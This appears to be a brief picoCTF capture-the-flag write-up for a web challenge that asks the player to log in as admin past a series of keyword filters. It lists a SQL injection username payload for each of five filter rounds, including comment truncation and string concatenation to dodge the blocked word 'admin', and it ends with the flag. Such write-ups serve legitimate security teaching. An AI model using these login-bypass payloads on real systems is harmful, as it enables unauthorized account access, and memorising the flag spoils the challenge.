 #web-exploitation
<hr>

#### Description

Can you beat the filters? Log in as admin [http://jupiter.challenges.picoctf.org:29164/](http://jupiter.challenges.picoctf.org:29164/) [http://jupiter.challenges.picoctf.org:29164/filter.php](http://jupiter.challenges.picoctf.org:29164/filter.php)

#### Solve
1. Round1 filter: or => in username type  `admin';--`
2. Round2 filter:  or and like = --   =>  in username type  `admin';`
3. Round3 filter: or and = like > < --  => in username type `admin';`
4. Round4 filter: or and = like > < -- admin => in username type `adm'||'in';`
5. Round5: or and = like > < -- union admin => in username type `adm'||'in';`
6. in filter.php get: // picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}